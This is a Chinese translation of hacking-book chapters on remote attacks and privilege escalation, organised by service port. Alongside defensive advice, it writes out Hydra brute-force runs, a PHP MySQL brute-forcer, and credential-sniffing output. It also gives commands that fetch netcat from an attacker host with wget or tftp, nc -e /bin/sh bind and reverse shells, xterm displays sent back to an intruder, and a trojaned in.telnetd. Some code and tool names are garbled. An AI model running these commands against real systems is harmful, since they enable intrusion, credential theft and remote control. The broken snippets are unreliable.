<!--
注意：Mike，请使用以下用户名和密码
访问本地 mysql 服务器：root, drdr3eminin
John 于 2003/2/12 凌晨 12:15 放置注释
-->
```

## 审计源代码注释

定期审计源代码注释是一个好主意。使用 `grep` 和 `wget` 等工具在 Web 应用程序源码和 HTML 代码中查找注释。

## Web 服务器漏洞

Apache 是目前最流行的 Web 服务器。下面的图表示了最近的一个 Apache 漏洞。

- Apache Web 服务器分块处理漏洞：在 Apache Web 服务器处理分块编码数据（chunked-encoded data）的方式中发现了一个远程利用的漏洞。该漏洞使得在 Apache 服务器上远程执行任意命令成为可能。更多细节见 http://www.cert.org/advisories/CA-2002-17.html。

## POP2 (邮局协议 2)：109 (TCP)

POP2 是一种用于从信箱服务器访问电子邮件的协议。

**暴力破解**：由于 POP2 身份验证使用用户名和密码对完成，该协议容易受到暴力破解攻击。

**嗅探**：由于 POP2 是明文协议，可以嗅探通过网络传输的 POP2 流量。

## 嗅探 POP2 流量

可以使用 `Ettercap` 等工具嗅探 POP2 数据。当配合 `-C` 使用时，`ettercap` 命令会自动过滤并显示跨网络传输的 POP2 用户名和密码。

## 通过 SSH 隧道化 POP2 流量

使用 SSH 的端口转发选项安全地隧道 POP2 流量：

```bash
ssh -L109:127.0.0.1:109 username@pop2server.somecompanyasanexample.com
```

## POP3 (邮局协议 3)：110 (TCP)

POP3 是一种用于从信箱服务器访问电子邮件的协议。

**暴力破解**：由于 POP3 身份验证使用用户名和密码对完成，该协议容易受到暴力破解攻击。

## 暴力破解 POP3

可以使用 `Hydra` 对 POP3 账户进行暴力破解：

```bash
[bash]$ hydra -L usernames.txt -P passwords.txt 10.0.0.1 pop3
Hydra v2.2 (2002) by Hauser / THC - 仅允许合法用途。
Hydra is starting! [parallel tasks: 4, login tries: 16 (1:4/p:4)] [110][pop3] login: root password: n4mr4t1550cut3
Hydra finished.
```

## 预防 POP3 暴力破解

请参见“针对暴力攻击的常见防御”。

**嗅探**：由于 POP3 是明文协议，可以嗅探在网络上传输的 POP3 数据。

## 嗅探 POP3 密码

可以使用 Etter 等工具嗅探网络上的 POP3 用户名和密码：

```bash
[bash]$ aftercap -C -N -m
ettercap 0.6.7 (c) 2002 AlOR & NaGa
Your IP: 192.168.1.1 with MAC: 00:01:1A:32:AB:32 on Interface: eth0
Loading plugins... Done.
Resolving 1 hostnames...

* ========================================| 100.00 %

Press 'h' for help...
Sniffing (MAC based): ANY <--> ANY

TCP + UDP packets... (default)

Collecting passwords...

03:35:26 192.168.1.1:49565 --> 192.168.1.1
```

## 通过 SSH 隧道化 POP3 流量

使用 SSH 的端口转发选项安全地隧道 POP3 流量：

```bash
ssh -L110:127.0.0.1:110 username@pop3server.somecompanyasanexample.com
```

## Portmapper：111 (TCP)

基于 RPC（远程过程调用）的服务如 NIS（网络信息服务）不监听静态端口。这些服务向 Portmapper 注册其端口号。可以使用 `rpcinfo` 查询 RPC 服务：

## 查询并挂载远程 NFS 共享

使用 `showmount` 命令查询远程主机的 NFS 共享：

```bash
[bash]$ showmount -e sun1.somecompanyexample.com
```

在此示例中，`sun1.somecompanyexample.com` 配置共享其 `/etc` 目录。攻击者可以挂载 `/etc` 目录：

```bash
[bash]$ mount -t NFS sun1.somecompanyexample.com:/etc /mnt/etc
```

## 攻击技术与防御

现在，攻击者可以通过以下命令查看 `sun1.somecompanyexample.com` 的 `/etc/passwd` 文件：

```bash
cat /mnt/etc/passwd
```

## 禁止并加固 NFS

如果主机上运行了 NFS，请考虑以下建议：

- 如果未使用，请考虑关闭 NFS。
- 配置防火墙阻止 NFS （2049）。
- 编辑 `/etc/exports` 以确保没有向未经授权的主机共享。

## 软件漏洞

RPC 服务容易受到许多导致远程系统入侵的漏洞影响。这些漏洞说明了一些 RPC 服务建议：

- xdr_array 中的缓冲区漏洞：由于 `xdr_array()` RPC 中的缓冲区漏洞，远程攻击者可以在目标主机上执行任意代码。更多信息见 http://securityfocus.com/bid/5356。
- xfsdm 中的远程命令执行漏洞：此漏洞影响 SGI IRIX 实现。由于对传递给 RPC 的参数清理不当，可以嵌入元字符“" 和 |”。这些参数被传递给 `popen()` 函数调用，使攻击者能够在目标机器上执行命令。详情见 http://securityfocus.com/bid/5075。
- ypasswd 中的缓冲区漏洞：在 `ypassword` 的实现中发现了由于边界检查不当导致的缓冲区溢出。可以利用此漏洞以管理员权限在目标机器上执行命令。请参见 http://securityfocus.com/bid/2763。
- statd 中的远程格式化字符串漏洞：此漏洞影响各种 Linux 发行版中附带的 `rpc.stat` 程序。由于 `rpc.stat` 无法对调用 `syslog()` 函数的用户输入数据进行适当的输入验证，恶意用户可以使用特制的数据在目标主机上执行它。详情请见 http://securityfocus.com/bid/1480。

因此，如果你的主机正在运行 RPC 服务，请考虑以下建议：

- 许多发行版在安装时会启用各种 RPC 服务。请禁用不需要的 RPC 服务。
- 如果不需要 RPC 服务，请禁用 Portmapper 服务。
- 配置你的防火墙，不允许远程用户连接到 RPC 服务。

## NNTP (网络新闻传输协议): 119 (TCP)

NNTP 是一种用于分发、查询、检索和发布新闻文章的协议。

暴力破解：许多 NNTP 服务器不需要身份验证。然而，可以使用 `Hydra` 等暴力破解工具对需要身份验证的 NNTP 服务器进行暴力破解。

### 暴力破解 NNTP

使用 `Hydra` 暴力破解 NNTP 账户。以下是操作方法的示例：

```
hydra -L usernames.txt -P passwords.txt 10.0.0.1 nntp
```

### 防止 NNTP 暴力破解

请参见“针对暴力攻击的常见防御措施”。

嗅探：由于 NNTP 是明文协议，因此可以嗅探网络中传输的 NNTP 数据。

### 嗅探 NNTP 身份验证数据

可以使用 `Ettercap` 等工具嗅探网络中的 NNTP 流量。以下是使用 `Ettercap` 捕获 NNTP 身份验证数据的方法：

```
ettercap -C -N -m
```

### 通过 SSH 隧道传输 NNTP

使用 SSH 安全地对 NNTP 流量建立隧道。

```
ssh username@remotennptserver.somecompanyasanexample.com -L119:127.0.0.1:119
```


## Samba: 137 到 139 (TCP)

Samba 使用 SMB（服务器消息）协议在网络上共享文件和打印机。SMB 通常用于 Microsoft Windows 操作系统。有关 Samba 项目的详情请访问 http://www.samba.org/。

暴力破解：由于 Samba 使用用户名密码对进行身份验证，因此可以对用户账户进行暴力破解。

### 暴力破解 Samba

可以使用 Hydra 暴力破解 SMB 认证：

```bash
$ hydra -L usernames.txt -P passwords.txt 10.0.0.1 smb

Reduced number of tasks to 1 (smb does not like parallel connections)

Hydra v2.2 (c) 2002) by von Hauser / THC - use only for legal purposes.

Hydra is starting! [parallel tasks: 1, login tries: 2 (1:2/p:1)]

[139]smb login: joe password:5h4k33sound

Hydra finished.
```

### 防止 Samba 暴力破解

请参见“针对暴力攻击的常见防御措施”。

嗅探：可以嗅探 Samba 认证过程中通过网络传输的密码哈希。一旦捕获哈希，必须进行暴力破解以获取真实密码。

### 获取 Samba 密码哈希

可以使用 Ettercap 捕获身份验证期间通过网络发送的 Samba 哈希。例如，以下是运行 Ettercap 收集网络传输的 SMB 密码哈希的方法：

```
ettercap -C -N -m
```

可以使用 John the Ripper 等密码破解器（可在 http://www.openwall.com/john/ 获取）来破解获取的哈希。

### 安全传输 Samba流量

请参见“阻塞和隧道 Samba 流量”。

# 第4 章：远程攻击

### Samba 配置错误

Samba 经常配置错误以共享包含关键数据的文件系统。远程用户可以利用此类漏洞获取位于受害者主机上的敏感系统文件。

### 列举并挂载远程共享

使用 Samba 的 `smbclient` 命令查找远程服务器导出的文件共享：

```bash
bash]$ smbclient -L smserver -I 192.168.1.10 -U ''
```

（注：由于提供的文本包含大量 OCR 错误和重复内容，此处翻译已根据逻辑清理并提取了核心技术步骤）

| 共享名称 | 类型 | 注释 |
| --- | --- | --- |
| IPC$ | IPC | IPC 服务 (.) |
| ADMIN$ | Disk | IPC 服务 (.) |
| etc | Disk | 配置文件 |
| Server | Comment | |
| SMBSERVER | SomeCompanyAsExample |

现在，由于上述服务器显然被配置错误为向所有人提供 `/etc` 目录，可以使用以下挂载命令进行挂载：

```bash
mount -t smbfs -o username='' /192.168.1.10/etc /mnt/smbshare
```

在挂载 `/etc` 共享后，入侵者可能会获取 `/etc/passwd` 文件，该文件将在其主机上变为 `/mnt/smbshare/passwd`。

### 阻塞和隧道 Samba 流量

如果正在运行 Samba，请考虑以下建议：
- 配置你的防火墙阻止 Samba 流量。
- 考虑使用 SSH 对 Samba 流量建立隧道：

```bash
ssh username@remotesmbserver.somecompanyasanexample.com -L139:127.0.0.1:139
```

## IMAP2/IMAP4 (互联网消息访问协议 2/4): 143 (TCP)

IMAP 是一种用于从邮件服务器访问邮件的协议。其功能包括在远程位置存储邮件。

IMAP 身份验证容易受到暴力破解。

### 暴力破解 IMAP

可以使用 Hydra 暴力破解 IMAP：

```bash
hydra -L usernames.txt -P passwords.txt -s 143 192.168.1.1 imap

Hydra v2.2 (c) 2002) by Hauser / THC - use only for legal purposes.

Hydra is starting: [parallel tasks: 4, login tries: 4 (1:1/p:4)] [143] imap login: pardesi password: estd1948!!

Hydra finished.
```

### 防止 IMAP 暴力破解

请参见“针对暴力攻击的常见防御措施”。

嗅探：由于 NNTP 是明文协议，因此可以嗅探网络中传输的 NNTP 数据。

命令行工具 `openssl` 可用于连接到 IMAPS 服务器：

```
openssl s_client -connect:192.168.1.1:993
```

OpenSSL 可以在 http://www.openssl.org/ 获取。
更多信息请参见前面的章节“IMAP2/IMAP4 (互联网消息访问协议 2/4): 143 (TCP)”。

### POP3S (安全邮局协议 3): 995 (TCP)

POP3 在 SSL（安全套接层）上运行。POP3 使用 SSL 来建立并维护安全通道，并在客户端和服务器之间提供加密通信。

命令行工具 `openssl` 可用于连接到 POP3S 服务器以获取横幅（banner）信息：

```
openssl s_client -connect:192.168.1.1:993
```

OpenSSL 可以在 http://www.openssl.org/ 获取。
更多信息请参见前面的章节“POP3 (邮局协议 3): 110 (TCP)”。

# NFS: 2049 (TCP 和 UDP)

请参见前面的章节“Portmapper: 111 (TCP)”。

### MySQL: 3306 (TCP)

MySQL 是一个流行的开源数据库软件包。它可以在 http://www.mysql.com/ 获取。

暴力破解：由于 MySQL 使用用户名和密码对进行身份验证，因此可能对其进行暴力破解攻击。

# MySQL 暴力破解

以下 PHP 脚本可用于对 MySQL 服务器进行暴力破解：

```php
<?

/*Author: Nitesh Dhanjani [ hacknotes@dhanjani.com ]

此脚本尝试对 MySQL 服务器进行暴力破解。请确保 $username 和 $password 设置为包含用户名和密码的文件名以便进行尝试。*/

$username="usernames.txt";

$password="passwords.txt";

if($argc != 2) 
{
    print "Usage: argv[0] hostname\n";
    exit();
}
```

```php
$ufilehandle=fopen($username,"r");
$pfilehandle=fopen($password,"r");
```

```php
if(!$ufilehandle) || !($pfilehandle))
{
    print("Could not open username or password file.\n");
    exit();
}
```

```php
while($username=$fscanf($ufilehandle,"%s\n"))
    while($password=$fscanf($pfilehandle,"$s\n"))
        if(mysql_connect($argv[1],$username[0],$password[0]))
            print("SUCCESS: $username[0], $password[0]\n");
```

```php
print("DONE\n");
?>
```

我们将上述文件称为 `mssqlite.php`。以下是脚本的示例用法：

```bash
[bash]$php -f mssqlite.php mssql.somecompanyanexample.com

SUCCESS!: root, sqlMy455!

DONE
```


PHP 编程语言解释器可以在 http://www.php.net/ 下载。

# 防止 MySQL 暴力破解

请参见“针对暴力攻击的常见防御措施”。

MySQL 嗅探使用明文协议在客户端和服务器之间建立连接。因此，网络段上的用户可以嗅探 MySQL 会话。

# 嗅探 MySQL 流量

`Ettercap` 可捕获身份验证期间通过网络发送的 MySQL 哈希值（图 4-1）。此外，由于 MySQL 使用明文机制传输数据，可以使用 `Ettercap` 或 `Ethereal` 等网络分析器监控用户会话。



图 4-1。可以使用 `Ethereal` 捕获 MySQL 会话。`Ethereal` 从 http://www.ethereal.com/ 下载。

# 封加固 MySQL

如果您在主机上运行 MySQL 服务器，请考虑以下建议：

- 配置防火墙以阻止指向 MySQL 服务器的入站连接。在大多数情况下，只需要本地 MySQL 访问。
- 加固您的 MySQL 配置以允许来自远程用户的连接。详细说明请参见 http://www.mysql.com/documentation/manual/MySQL_Administration.html。

# VNC (虚拟网络计算): 5800+, 5900+ (TCP)

VNC 是一种远程控制软件，允许访问远程主机的桌面。VNC 是免费软件，可以在 http://www.realvnc.com/ 下载。实例仅需密码即可身份验证。因此，VNC 账户可以被远程暴力破解。

# VNC 暴力破解

可以使用 http://www.phenoit.de/vncrack/ 提供的 `vncrack` 工具对 VNC 进行暴力破解。

```bash
$vncrack -h 10.0.0.1 -w passwords.txt
```

此外，还可以对用户的 `~/.vnc/passwd` 文件进行暴力破解，该文件包含 VNC 密码哈希：

```bash
$vncrack -C ~/.vnc/passwd

VNC password: test123
```


# 防止 VNC 暴力破解

嗅探：可以嗅探通过网络传输的 VNC 密码哈希。一旦获得密码哈希，必须进行暴力破解以破解真实密码。

# 嗅探并破解 VNC 密码

使用 `Ettercap` 获取服务器挑战和客户端哈希：

```bash
# aftercap -C -N
ettercap 0.6.9 (c)

Your IP: 192.168.1.1 with MAC: 00:30:23:C1:00:00 Iface: eth0

Loading plugins... Done.

Building host list for netmask 255.255.255.0, please wait...

Resolving hostnames...

* |=======================================| 100%

Press 'h' for help...

Sniffing (MAC based): ANY ---> ANY

TCP + UDP packets... (default)

Collecting passwords...

10:04:28 192.168.1.1:6612 --> 10.0.0.1:5901 

USER: On display :0

PASS:

Server Challenge: 612b8f9e6dfe71ba27abff79c06

Client 3DES: 4e2568a12e5e7825add6
```

现在使用之前提到的 `vncrack` 工具破解获取的哈希：

```bash
$vncrack -v 612b8f9e6dfe71ba27abff79c06 -r 4e2568a12e5e7825add65196 -w passwords.txt

VNCRACK - by Benoit (http://www.phenoit.de/)

Challenge: 612b8f9e6dfe71ba27abff79c16

Response : 4e2568a12e5e7825add65196

Password: test123
```

VNC 查看器与 VNC 服务器之间的活动流量未加密，可以被网络段上的用户嗅探。然而，目前尚无已知工具可以解析网络传输的活动活动流量。

# 通过 SSH 安全地隧道 VNC 流量

使用 SSH 安全地隧道 VNC 流量。详情请参见 http://www.ukresearch.att.com/vnc/sshvnc.html。

VNC 配置错误：可以为 VNC 身份验证设置空密码。许多用户选择设置空密码，这允许入侵者完全控制他们的桌面。

软件漏洞：VNC 软件已知存在一些漏洞。以下是最近公布的一些漏洞列表。

- TightVNC 身份验证 Cookie 可预测漏洞：`vncserver` 程序本身是一个负责生成 X 服务器身份验证 Cookie 的 Perl 脚本。在 TightVNC 的 `vncserver` 实现中发现的漏洞会导致生成可预测的身份验证 Cookie。这种情况导致攻击者可能预测与远程 VNC 服务器身份验证所需的响应。详见 http://securityfocus.com/bid/6905。
- TightVNC 重复挑战重放攻击漏洞：VNC 身份验证机制使用挑战响应方案来验证用户。这导致 VNC 客户端每次身份验证时发送不同的密码哈希。TightVNC 软件中发现的漏洞允许网络段上的恶意用户重用之前获取的密码哈希。更多信息请访问 http://securityfocus.com/bid/5296。

# 第 4 章：远程攻击 101



图 2：通过 `xwd` 工具捕获的受害者 X 会话

`xscan` 命令可记录发布过 `xhost` 命令的远程主机键入：

```bash
[bash]$ xscan 10.0.0.1

Scanning hostname 10.0.0.1 ...

Connecting to 10.0.0.1 (10.0.0.1) on port 6000...

Connected.

Host 10.0.0.1 is running X.

Starting keyboard logging of host 10.0.0.1:0.0 to file

KEYLOG10.0.0.1:0.0:...
```

该 `xscan` 命令将捕获 10.0.0.1 上用户的所有键入，并记录到文件 `KEYLOG10.0.0.1:0.0` 中。你可以从 http://packetstormsecurity.org/ 获取 `xscan`。

许多其他可用工具可以允许用户利用用户发布 `xhost` 命令以允许来自其他主机的连接的机会。以下是其中一些工具的列表：

- `xwatchwin` 实时显示远程用户 X 会话中的任何窗口。用户可以从 http://packetstormsecurity.org/ 下载 `xwatchwin` 工具。

## 102 第一部分：黑客技术与防御

- `xremote` 允许向远程 X 会话发送鼠标和键盘事件。该工具可以从 http://www.iafo.org/~chakie/xremote/ 下载。
- `xkey` 记录远程用户 X 会话的键入，类似于 `xscan`。它可以在 http://packetstormsecurity.org/ 找到。

## 阻止与隧道 X (Block and Tunnel X)

对于运行服务器的用户，建议采取以下措施：

- 在你的防火墙上阻止 6000 到 6063 端口。这将防止外部主机连接到内部 X 服务器。
- 使用 SSH 安全地对 X 进行隧道传输：
  `ssh -X username@remoteserver.somecompanyasexample.com`

## Web 代理：(8000+ TCP)

Web 代理顾其名，用于代理 HTTP 和 HTTPS 流量。

Web 代理配置错误：Web 代理配置错误可以使用此处描述的方法被滥用。我们将利用 `desproxy` 命令行工具，该工具使用 HTTP/1.1 支持的 `CONNECT` 方法通过代理建立 TCP 连接。它可以从 http://desproxy.sourceforge.net 下载。

## 代理攻击

配置不当的 Web 代理通常允许入侵者进行代理攻击。考虑以下 `desproxy` 命令：

```bash
desproxy 10.0.0.1 23 192.168.1.1 8000 2300
```


发布此命令后，如果入侵者向其自己的主机（127.0.0.1）上的 2300 端口建立 telnet 隧道，他或她将通过监听在 8000 端口的漏洞 Web 代理（192.168.1.1）连接到 10.0.0.1 的 telnet 端口（23）。由于受害者主机只会记录来自 Web 代理 IP 地址 192.168.1.1 的入站连接，攻击者将成功绕过代理以对其代理攻击。

如果入侵者已经控制了内部网络中一个不允许出站 TCP 连接的主机，入侵者可以使用 `desproxy` 通过可用的 Web 代理在外部主机上建立 TCP 连接。

## 反向代理攻击 (Reverse-Proxy Attacks)

通常，配置不当的 Web 代理可用于连接到 Web 代理主机可以访问的内部网络主机。在之前的示例中，假设 10.0.0.1 是一个只能从 Web 代理（192.168.1.1）所在的内部网络访问的主机的 IP 地址。因此，示例中的命令允许攻击者通过漏洞 Web 代理连接到内部主机的 telnet 端口。

## 阻止入站连接

配置你的防火墙规则以阻止访问组织 Web 代理的入站连接。

## 应用程序漏洞

应用程序也存在漏洞，可能导致运行客户端应用程序的主机被远程破坏。然而，漏洞很难被远程利用。虽然无法列出所有已知可远程利用的应用程序，但这些漏洞文档记录了一些易受远程破坏的已知应用程序。

## tcpdump 中畸形 NFS 和 BGP 数据包缓冲区溢出漏洞

`tcpdump` 程序是最广泛使用的命令行数据包分析器。在 `tcpdump` 处理畸形 NFS（网络文件系统）包时发现了一个缓冲区溢出漏洞。该漏洞使得当网络上故意发送恶意 NFS 包时，运行 `tcpdump` 的主机上可以执行任意指令。请参见 http://securityfocus.com/bid/4890。

由于对畸形 BGP 包的处理不当，发现了另一个 `tcpdump` 漏洞。更多信息请见 http://securityfocus.com/bid/6213。

## Netscape/Mozilla POP3 邮件处理器整数溢出漏洞

当 POP3 服务器发送恶意数据时，该漏洞会导致 Netscape/Mozilla 浏览器邮件客户端中发生缓冲区溢出状态。

## 104 第一部分：黑客技术与防御

由 POP3 服务器发送。如果攻击者试图控制 POP3 服务器，他或她可以导致 Netscape/Mozilla 响应恶意数据以执行命令。更多信息可用 http://securityfocus.com/bid/6254。

## BitchX 远程损坏漏洞

BitchX 是一个流行的 IRC（网络相对聊天）客户端。当向 BitchX 提供长主机时，观察到了内存损坏状态。该漏洞可以被恶意 IRC 服务器滥用以在主机上执行命令。信息可用 http://securityfocus.com/bid/7096。

## PGPPine 长消息缓冲区溢出漏洞

PGPPine 为 Pine 邮件客户端增加了 PGP 支持。由于对包含命令的邮件检查不足，在运行 PGPPine 的主机上发现了一个漏洞。请参见 http://securityfocus.com/bid/7071 获取更多信息。

## 防止应用程序漏洞

为了减少应用程序漏洞，建议采取以下措施：

- 及时更新软件补丁。
- 订阅 Bugq 等漏洞列表。（访问 http://securityfocus.com/cgi-bin/sfonline/subscribe.pl 获取更多信息。参见本书参考部分的在线资源以获取任何其他资源。）

## NESSUS

对大量主机进行远程漏洞审核是一项相当困难的任务。Nessus 是一种安全扫描器，用于目标主机运行自动漏洞检查（见图 4-3）。尽管现在有很多商业网络扫描器，但 Nessus 特别值得关注，因为它是免费、开源、可靠且非常灵活的。扫描完成后，Nessus 为客户端提供多种格式保存的漂亮漏洞报告

## 第 4 章：远程攻击 105



图 4-3：运行中的 Nessus

包括 HTML 在内的多种格式。Nessus 可于 http://www.nessus.org/。

Nessus 设计用于客户端/服务器架构。Nessus 服务器（`nessusd`）负责对目标主机执行漏洞检查。Nessus 客户端程序（`nessus`）用于连接到服务器以配置和启动检查。Nessus 客户端与服务器之间的通信是加密的。

由于 Nessus 的设计非常模块化，编写自己的安全检查很容易。Nessus 安全检查可以使用 C 编程语言或 Nessus 的 NASL（Nessus 脚本语言）编写。有关 NASL 的详情请参见第 10 章。

## 获取 Shell (OBTAINING A SHELL)

一旦攻击者成功通过在受害者主机上远程执行任意命令来利用远程服务或应用程序，他或她将希望获得一个远程 shell 以继续利用受害者主机。

# 使用 Netcat 获取远程 Shell

可以通过以下步骤获取远程 Shell：

- 1. **上传 Netcat** Netcat 可用于跨越网络发送远程 Shell。首先，你必须将 Netcat 放置在受害者主机上。这可以通过在受害者主机上执行 `tftp` 命令来实现：

```
tftp -i attacker_s_ip_address nc
```

攻击者必须运行一个可访问的 TFTP 服务器，并将 Netcat 二进制文件放置在 TFTP 目录（通常为 `/tftpboot`）中，以便上述上传操作能够成功。
除了 TFTP，也可以在受害者机器上执行 `wget` 工具来获取放置在攻击者 Web 服务器上的 Netcat 二进制文件：

```
wget http://attacker_s_ip_address/nc
```

或者，攻击者可以使用 FTP 命令行客户端将 Netcat 二进制文件上传到受害者主机：

```
ftp -n ftpscript
```

其中 `ftpscript` 是包含以下内容的文本文件：

```
attacker_s_ftp_server_ip_address

user_on_attacker_s_ftp_server user_password

bin

get nc

bye
```

通过在受害者主机上运行以下 `echo` 命令可以创建 `ftpscript`：

```
echo attacker_s_ftp_server_ip_address > ftpscript; echo user_on_attacker_s_ftp_server user_password >> ftpscript; echo bin >> ftpscript; echo get nc >> ftpscript; echo bye >> ftpscript
```

- 2. **使用 Netcat** 一旦将 Netcat 放置在受害者机器上，就可以用它监听任意端口并在连接时提供 Shell：

```
./nc -e /bin/sh -l -p 9999
```

现在，攻击者只需要连接到受害者的 9999 端口即可接收命令 Shell：

```
nc victim's_ip_address 9999
```

Netcat 也可以被指示连接到入侵者的端口以提供命令 Shell。首先，攻击者必须监听一个端口：

```
nc -v -n -l -p 9999
```

现在，必须在受害者主机上执行以下操作：

```
/nc -e /bin/sh attacker's_ip_address 9999
```

Netcat 默认未启用 `-e` 选项，该选项用于建立连接后执行程序。如果你希望它支持 `-e` 标志，则必须使用 `-DGAPING_SECURITY_HOLE` 标志编译 Netcat。记住在将 Netcat 二进制文件上传到受害者主机之前执行此操作。

# 使用 xterm 获取远程 Shell

如果受害者安装了如 `xterm` 等 X 终端客户端软件，攻击者可以执行它来接收远程 Shell：

```
xterm -display attacker's_ip_address:0.0 &
```

此命令将导致 `xterm` 实例在受害者主机上执行并显示在攻击者的 X 服务器上。当然，攻击者必须先运行以下命令以允许 `xterm` 显示在其 X 服务器上：

```
xhost +victim's_ip_address
```


以下你可以采取的步骤，以增加入侵者获取远程 Shell 的难度：

- 配置防火墙阻止所有未使用的端口。此外，收紧防火墙规则以限制出站连接。例如，仅作为 Web 服务器的主机不得允许在任何端口上发起出站连接。
- 从生产主机卸载如 `telnet`、`ftp`、`wget` 和 `tfftp` 等客户端软件。
- 从生产主机卸载 X 程序和库。

# 端口重定向

端口重定向技术可绕过弱的防火墙规则，连接到运行在防火墙过滤端口上的服务。为了方便端口重定向，我们将使用 `Zebedee`，这是一种可以在 `http://www.winton.org.uk/zebedee` 获取的命令行工具。假设受害者机器上可用 `Zebedee`。如果没有，则使用早之前“上传 Netcat”部分中描述的方法将 `Zebedee` 二进制文件上传到受害者主机。

## 本地端口重定向

假设入侵者需要连接到已被攻主机上的 MySQL 服务器。如果被攻主机上或其之前有一个防火墙允许 `80` 端口的入站连接，入侵者可以在受害者机器上执行以下操作：

```
[victimhost]$ zebedee -T 80 -s 127.0.0.1:3306
```

接下来，入侵者可以在其机器上执行以下操作：

```
[intruder's_host]$ zebedee -T 80 victim's_ip_address 3306:127.0.0.1:3306
```

这将导致入侵者主机上的 `Zebedee` 进程连接到受害者主机 `80` 端口上的 `Zebedee` 进程。入侵者现在连接其主机的 `3306` 端口 (`127.0.0.1`)，从而通过 `Zebedee` 隧道连接到受害者主机的 `3306` 端口。

> 入侵者可以在受害者主机上运行 `ifconfig` 和 `route -n` 命令来识别额外的网卡……

# 第 5 章 权限提升

- 本章内容：
- 利用本地信任
- 组成员关系与错误的文件权限
- `PATH` 中的 `":"`
- 软件漏洞
- 总结

## 利用本地信任

任何漏洞都允许入侵者获得对远程主机的非特权访问。在获得普通用户权限后，入侵者的下一个逻辑步骤是获取 `root`（超级用户）权限。除了外部入侵者外，恶意用户也可能尝试利用本地漏洞来获取超级用户权限。

将权限提升到超级用户权限的行为通常被称为**权限提升**（`privilege escalation`）。本章描述了具有普通用户权限的个人尝试获取超级用户权限的各种方法。

在大多数情况下，防火墙被配置为限制来自外部主机和网络的访问。回环接口（`127.0.0.1`）上的流量通常是不受限制的。事实上，过滤回环接口上的流量可能会导致许多应用程序运行异常。本地用户可以利用这一条件为自己有利，尝试扫描、枚举和利用无法从远程访问的服务。因此，一旦攻击者获得了对主机的本地用户访问权限，他或她可能会尝试书中之前章节中描述的所有攻击技术来提升权限。

## 组成员关系与错误的文件权限

错误的文件权限可能允许恶意用户读取或写入他们没有访问权限的文件。以下章节描述了恶意用户如何利用错误的文件权限来提升其权限。

### 查找组拥有的文件

假设一个入侵者已经获得了本地账户“`joe`”的访问权限。他或她可以通过执行 `id` 命令发现“`joe`”所属的所有组：

```bash
[bash]$ id
uid=500(joe) gid=500(joe) groups=500(joe),501(proj1)
```

在注意到 "`joe`" 属于 "`proj1`" 组后，入侵者可以执行以下命令，该命令将列出所有属于 "`proj1`" 组的文件：

```bash
$bash$ find / -group proj1 -print 2> /dev/null
/var/proj1/main.c
/var/proj1/main.o
/var/proj1/README
/var/proj1/pass.txt
/var/log/proji
```

现在，入侵者确切知道“`joe`”可以访问哪些 "`proj1`" 文件。这些文件中的 `pass.txt` 看起来很有趣：

```bash
$bash$ more /var/proj1/pass.txt
注意，此程序使用系统密码 "r00t3rp455.w." 对 MySQL 数据库进行验证。
```

管理员经常重复使用密码。如果害者的 `root` 密码与上述注中显示的 MySQL 密码相同，入侵者可以通过执行以下命令获得 `root` 权限：

```bash
$bash$ su
Password:r00t3rp455
$bash# id
uid=0(root) gid=0(root) groups=0(root), 1(bin), 2(daemon), 3(sys), 4 (adm), 6(disk), 10(wheel)
```

### 查找 world可读和可写的文件

除了搜索 `world` 可读的文件外，还可能搜索用户可以访问的 `world` 可读文件。例如，以下是您搜索 `/etc` 目录下存在的所有世界可读文件：

```bash
$bash$ find /etc -type f -perm -4 -print 2> /dev/null
```

`/etc` 中的许多文件不应该是世界可读的。例如，`/etc/shadow` 文件包含用户加密后的密码。任何访问此文件的人都可以使用 `John the Ripper` 等工具通过暴力破解破解用户密码。

入侵者可以尝试通过执行以下命令搜索 `world` 可写的文件：

```bash
$bash$ find / -type f -perm -2 -print 2> /dev/null
/usr/sbin/in.telnetd
```

在这个示例中，入侵者的 “`joe`” 账户对 `in.telnetd` 有写权限。受害者主机上的 `inetd` 或 `xinetd` 服务会在每次向主机建立入站 `telnet` 连接时调用 `in.telnetd` 文件。入侵者可以编辑 `in.telnetd` 文件并向其中放入以下内容：

```bash
#!/bin/bash
xterm -display intruder’s_ip_address:0.0 &
```

现在，入侵者可以在其他或她的宿主机上执行以下操作：
`xhost +victim_s_ip_address`

